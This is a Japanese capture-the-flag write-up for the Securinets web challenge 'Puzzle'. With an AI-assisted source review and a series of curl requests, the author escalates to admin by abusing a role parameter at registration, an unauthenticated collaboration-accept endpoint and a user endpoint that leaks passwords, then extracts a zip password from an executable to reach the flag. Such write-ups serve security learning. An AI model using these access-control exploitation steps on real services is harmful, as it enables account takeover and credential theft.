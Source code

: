 # Puzzle:Web:302pts
Solve without source if you're hardcore.  

[http://puzzle-c4d26ae9.p1.securinets.tn/](http://puzzle-c4d26ae9.p1.securinets.tn/)  

[Puzzle.zip](Puzzle.zip)  

# Solution
URLとソースコードが渡される。  
アクセスすると自然に関する物語を共有できるサイトで、LoginやRegisterができる。  
![site1.png](site/site1.png)  
アカウントを作成しログインすると一度だけパスワードが表示される。  
今後はこれでログインすることになるようだ。  
![site2.png](site/site2.png)  
物語を投稿することもでき、ユーザ名(自分自身含む)を指定してコラボレーションすることもできる。  
![site3.png](site/site3.png)  
コラボレーションは自分自身の場合は`Accept`でき、他ユーザの場合はされるのを待つことになる。  
試しに`admin`をコラボ対象にすると、ユーザが存在した。  
![site4.png](site/site4.png)  
次に以下のようなプロンプトで、Cursor (claude-4.5-connet)を用いてソースコードを脆弱性検査してみる。  
```
CTFのWeb問題です。配布されたソースコードをあなたに渡します。以下ディレクトリの脆弱性やアカウント侵害を調査して、CTF.mdファイルにまとめてください。
```
すると[CTF.md](CTF.md)のような脆弱性が検出された。  
`脆弱性1: Server-Side Template Injection (SSTI)`はadminである必要があり、`脆弱性2: SQL Injection`はlocalhostからのみ攻撃可能なようだ。  
`脆弱性3: 情報漏洩（パスワード露出）`を確認するため新たなアカウントを登録すると、実際にRegister時に`role=1`を加えることで`/users/{UUID}`が利用できるようになった。  
```bash
$ curl 'http://puzzle-c4d26ae9.p1.securinets.tn/users/f11d086e-b928-4500-952b-7be2c520e5a2' -H "Cookie: SRV=p2-1c9c9a9afd07712b; session=eyJ1dWlkIjoiZjExZDA4NmUtYjkyOC00NTAwLTk1MmItN2JlMmM1MjBlNWEyIn0.aOS0VA.QxjOxSDhu1hp-caD8Q1-MIiizZs"
{"email":"satoki.satoki.satoki","password":"Ldko9Z1ECAMq","phone_number":null,"role":"1","username":"satoki00_role1","uuid":"f11d086e-b928-4500-952b-7be2c520e5a2"}
```
ちなみに、現状ではプロフィールから自身のUUIDがわかるのでそれを用いた。  
![site5.png](site/site5.png)  
かなり便利な脆弱性ではあるが、adminのUUIDがわからないため、パスワードは取得できない。  
次に、`脆弱性6: /dbディレクトリの公開`にあるように`/db`にアクセス可能であり、`old.db`なるファイルもダウンロードできる。  
![site6.png](site/site6.png)  
中身にはadminのパスワードハッシュが含まれていたため、rockyou.txtでクラックしたところ`pizzaguy`と分かったが、古い情報なのかログインに利用することができなかった。  
同様にadminのUUIDも含まれていたが、これも利用することができなかった。  
あきらめて別の手法でUUIDを探し回っていると、物語が`Accept`されて公開された場合に、コラボレーション相手のUUIDが含まれることを発見した。  
以下のように自分自身をコラボレーション相手に指定し、自身で`Accept`して公開した物語では、自身のUUIDが含まれている。  
```bash
$ curl 'http://puzzle-c4d26ae9.p1.securinets.tn/article/399e4a3f-e12f-4ea8-8f04-80bfb6db72ac' -H "Cookie: SRV=p2-1c9c9a9afd07712b; session=eyJ1dWlkIjoiZjExZDA4NmUtYjkyOC00NTAwLTk1MmItN2JlMmM1MjBlNWEyIn0.aOS0VA.QxjOxSDhu1hp-caD8Q1-MIiizZs"
~~~
    <div class="container mt-5">
        <div class="card">
            <div class="card-body">
                <h1 class="card-title">Me</h1>
                <div class="text-muted mb-4">
                    <span class="d-none author-uuid">f11d086e-b928-4500-952b-7be2c520e5a2</span>

                    <span class="d-none collaborator-uuid">f11d086e-b928-4500-952b-7be2c520e5a2</span>

                    <!-- Author and collaborator info -->
                    <small>
                        Posted by satoki00_role1

                        in collaboration with satoki00_role1

                        on 2025-10-07 06:58:18
                    </small>
                </div>
                <div class="card-text">
                    Me
                </div>
            </div>
        </div>
~~~
```
つまり、adminとコラボレーションした自分自身の物語が`Accept`されれば、adminのUUIDが取得できる。  
もちろんadminがコラボレーションを`Accept`してくれるはずもない。  
ところで`Accept`する前の物語にも固有のIDが振られているが、これはコラボ相手が誰でも、特に秘匿されておらず`/collaborations`で確認できる。  
試しにこの固有のIDを使って、adminをコラボ相手とした物語を勝手に`Accept`してみる。  
```bash
$ curl -X POST 'http://puzzle-c4d26ae9.p1.securinets.tn/collab/accept/6fa8eed8-80e5-414b-a7ad-2ad8b406093d' -H "Cookie: SRV=p2-1c9c9a9afd07712b; session=eyJ1dWlkIjoiZjExZDA4NmUtYjkyOC00NTAwLTk1MmItN2JlMmM1MjBlNWEyIn0.aOS0VA.QxjOxSDhu1hp-caD8Q1-MIiizZs"
{"message":"Collaboration accepted"}
```
するとすんなりと通ってしまった。  
これによって公開された物語を見ると、adminのUUIDを取得することができた。  
```bash
$ curl 'http://puzzle-c4d26ae9.p1.securinets.tn/article/a6cdd7b7-ad9f-44d6-934c-31b3c52ad950' -H "Cookie: SRV=p2-1c9c9a9afd07712b; session=eyJ1dWlkIjoiZjExZDA4NmUtYjkyOC00NTAwLTk1MmItN2JlMmM1MjBlNWEyIn0.aOS0VA.QxjOxSDhu1hp-caD8Q1-MIiizZs"
~~~
    <div class="container mt-5">
        <div class="card">
            <div class="card-body">
                <h1 class="card-title">Admin</h1>
                <div class="text-muted mb-4">
                    <span class="d-none author-uuid">f11d086e-b928-4500-952b-7be2c520e5a2</span>

                    <span class="d-none collaborator-uuid">a8ec97ad-e893-4d4e-8613-c23bfb14671b</span>

                    <!-- Author and collaborator info -->
                    <small>
                        Posted by satoki00_role1

                        in collaboration with admin

                        on 2025-10-07 07:15:01
                    </small>
                </div>
                <div class="card-text">
                    Admin
                </div>
            </div>
        </div>
~~~
```
あとは`/users/{UUID}`を用いてadminのパスワードを取得することができる。  
```bash
$ curl 'http://puzzle-c4d26ae9.p1.securinets.tn/users/a8ec97ad-e893-4d4e-8613-c23bfb14671b' -H "Cookie: SRV=p2-1c9c9a9afd07712b; session=eyJ1dWlkIjoiZjExZDA4NmUtYjkyOC00NTAwLTk1MmItN2JlMmM1MjBlNWEyIn0.aOS0VA.QxjOxSDhu1hp-caD8Q1-MIiizZs"
{"email":"admin@securinets.tn","password":"Adm1nooooX333!123!!%","phone_number":"77777777","role":"0","username":"admin","uuid":"a8ec97ad-e893-4d4e-8613-c23bfb14671b"}
```
`Adm1nooooX333!123!!%`と分かったため、ログインする。  
![admin.png](site/admin.png)  
adminになったのでSSTIが可能だが、あまりにブラックリストが厳しすぎる。  
ブラックリストが突破できないため、ほかに方策がないかソースを見ていると`/data`なる謎のadmin専用機能を発見する。  
![data.png](site/data.png)  
アクセスするとパスワード付きの`secrets.zip`と`dbconnect.exe`なる怪しいファイルが取得できる。  
```bash
$ strings dbconnect.exe | grep pass
password = 'PUZZLE+7011_X207+!*'
$ unzip -P 'PUZZLE+7011_X207+!*' secrets.zip
Archive:  secrets.zip
 extracting: data.txt
$ cat data.txt
Securinets{777_P13c3_1T_Up_T0G3Th3R}
```
exeを`strings`するとパスワードが含まれおり、そのパスワードでzipを展開するとflagが格納されていた。  
あらゆるものがラビットホールの、よくわからない問題だった。  

## Securinets{777_P13c3_1T_Up_T0G3Th3R}
